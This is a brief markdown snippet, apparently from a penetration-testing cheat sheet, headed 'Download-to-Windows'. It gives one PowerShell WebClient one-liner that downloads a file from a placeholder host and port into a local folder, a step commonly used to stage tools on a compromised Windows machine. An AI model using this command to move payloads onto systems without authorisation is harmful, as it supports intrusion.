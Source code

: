 # Download-to-Windows
```
(new-object System.Net.WebClient).DownloadFile('http://[hostnanme]:[port]/[filename]','[Path]\[to]\[folder]\[filename]')
```
